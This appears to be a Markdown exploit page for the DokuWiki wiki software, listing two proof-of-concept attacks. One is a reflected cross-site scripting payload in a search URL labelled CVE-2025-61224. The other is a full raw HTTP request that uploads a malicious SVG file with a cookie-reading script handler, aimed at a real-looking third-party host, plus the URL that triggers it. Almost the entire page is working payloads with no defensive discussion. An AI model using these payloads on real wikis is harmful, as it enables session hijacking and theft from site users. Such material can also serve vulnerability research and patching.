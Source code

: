 # DokuWiki

### CVE-2025-61224
- ***poc:***  *GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E*
- ***Payload:*** ```1 @<script>prompt`xss`</script>```

### 2024-02-06a
- ***poc:***
```
POST /lib/exe/ajax.php?tab_files=files&tab_details=view&do=media&ns=&sectok=&mediaid=&call=mediaupload&qqfile=alert.svg&ow=false HTTP/2
Host: manual.kcell.kz
Content-Length: 197
X-Requested-With: XMLHttpRequest
X-File-Name: alert.svg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.289 Safari/537.36
Content-Type: application/octet-stream
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <circle r="50" cx="50" cy="50" fill="red" 
            onmouseover="alert(document.cookie);" />
</svg>

```
- ***execute:*** ```http://your-ip/data/media/alert.svg```
